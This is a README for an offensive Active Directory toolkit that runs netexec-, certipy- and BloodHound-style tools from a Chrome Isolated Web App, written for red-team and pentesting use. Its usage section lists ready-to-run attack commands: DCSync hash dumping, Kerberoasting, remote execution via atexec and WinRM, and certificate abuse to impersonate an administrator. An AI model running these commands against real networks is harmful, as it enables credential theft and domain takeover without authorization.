


# iwa-tools
## TL;DR
Check out the demo on this [site](https://iwa-tools.pkilla.pw/)!


## Description
Chrome has an experimental API called Direct Sockets that gives raw TCP/UDP to
"Isolated Web Apps" — signed, installed web apps that live under
`isolated-app://<key>/`. It exists so people can build things like SSH clients
and databases inside the browser without a native shim. It also happens to be
perfect for offensive AD tooling.

This is a bunch of pentesting utilities on top of that. Everything runs inside
a signed `.swbn` that Chrome installs, and speaks SMB / LDAP / DCE-RPC / WinRM
/ Kerberos / MSSQL / ADWS from a browser tab.

Written for [OFFZONE 2026](https://offzone.moscow/) — talk *"Living off the
Browser"*.

> Use only against systems you own or have explicit written permission to test.

## Screenshots

The main console — one prompt, all tools. Here it's running `portscan → adidns
(Kerberos + LDAPS + channel binding) → certify find`:



Or install each tool as its own IWA if you'd rather have a GUI than a console:



## What's in it

| Tool         | What it does |
|--------------|--------------|
| **`nxc`** (netexec) | The netexec port. SMB · LDAP · WinRM · MSSQL · SSH · FTP · RDP · VNC |
| `adidnsdump` | Dumps AD-integrated DNS zones over LDAP |
| `sharphound` | BloodHound collector — LDAP + SMB flavour |
| `soaphound`  | BloodHound collector — ADWS flavour (port 9389, quieter than LDAP) |
| `certipy`    | AD CS: ESC1-15 discovery, cert requests, PKINIT → TGT + UnPAC-the-hash |
| `ldap-shell` | Interactive LDAP — DACL, RBCD, Shadow Creds, gMSA, password reset, all the fun stuff |
| `evil-winrm` | Remote PowerShell over WinRM (HTTP/HTTPS) |
| `portscan`   | Plain TCP connect scanner |

The protocol stacks are hand-written JS. NTLMv2 with signing and sealing,
Kerberos AES256, pass-the-hash, pass-the-ticket, PKINIT, and channel binding
(`tls-server-end-point`) for LDAPS / WinRM EPA on locked-down DCs.

TLS goes through rustls compiled to WASM (`tls-wasm/`) — that was way easier
than writing a from-scratch TLS 1.3 stack in JavaScript.

## Building

You need Node.js. Chrome ≥ 128 for install.

Enable these three flags at `chrome://flags/#...` and **relaunch Chrome
afterwards** (otherwise nothing works):

- `enable-isolated-web-apps` → Enabled
- `enable-isolated-web-app-dev-mode` → Enabled
- `local-network-access-check` → Disabled (else Chrome blocks TCP to RFC1918)

Then:

```bash
git clone https://github.com/CICADA8-Research/iwa-tools && cd iwa-tools
make                       # build every tool
# or:  make iwa-tools      # just the combined console
```

Open `chrome://web-app-internals`, find *Install IWA from Signed Web Bundle*,
paste the full path to `iwa-tools/dist/iwa-tools.swbn`, hit Install. It shows
up in `chrome://apps` and the system launcher.

Rebuilds don't auto-update — you have to hit *Perform update now* on the same
page. That's a Chrome quirk.

## Using it

The console has a `help` command. `help <tool>` for a specific one. If you've
used netexec / crackmapexec, most of this will feel familiar:

```
nxc smb 10.0.0.0/24 -u admin -d corp.local -p PASSWORD --shares
nxc smb dc01 -u admin -d corp.local -p PASSWORD --dcsync             # everyone
nxc smb dc01 -u admin -d corp.local -p PASSWORD --atexec whoami
nxc ldap dc01 -u admin -d corp.local -p PASSWORD --kerberoast
nxc winrm dc01 -u admin -d corp.local -p PASSWORD -x hostname
nxc mssql db01 -u sa -p PASSWORD --query 'SELECT @@version'
certipy find -H dc01 -u admin -d corp.local -p PASSWORD --tls
certipy req  -H dc01 -u lowpriv -d corp.local -p PASSWORD \
             --cahost ca01 -ca corp-CA -t VulnerableTemplate -upn administrator@corp.local
certipy auth -k dc01 -pfx loot/certipy/…pfx
sharphound -H dc01 -u admin -d corp.local --collection Default --tls
ldap-shell -H dc01 -u admin -d corp.local --tls
```

Files (ccache/kirbi, wordlists, results) live in an in-memory store — there's
a *Files* tab in the UI for upload/download. Then any command that takes
`--ticket <path>` or `@path` for arg interpolation picks them up.

## What doesn't work (yet)

- `nxc smb --wmi` — the DCOM chain is a lot of NDR marshalling. Not done. Use
  `nxc winrm --wmi` in the meantime, works fine.
- Full `ntds.dit` parsing — the module downloads the raw hive files but points
  you at `secretsdump.py` locally to actually parse them. Writing an ESE/JET
  reader in JS wasn't on the list. `--dcsync` gets you every NT hash without
  needing that anyway.

## Development

```bash
make test             # per-tool unit tests
make clean            # drop dist/
make distclean        # also drop node_modules/
make keygen-<tool>    # regenerate signing key — CHANGES the app origin
```

The signing key is Ed25519 per tool, generated on first build. The public key
becomes the app's `isolated-app://<key>/` origin, so regenerating a key means
the app installs fresh — Chrome treats it as a different app entirely.

## License

MIT. See [LICENSE](LICENSE).
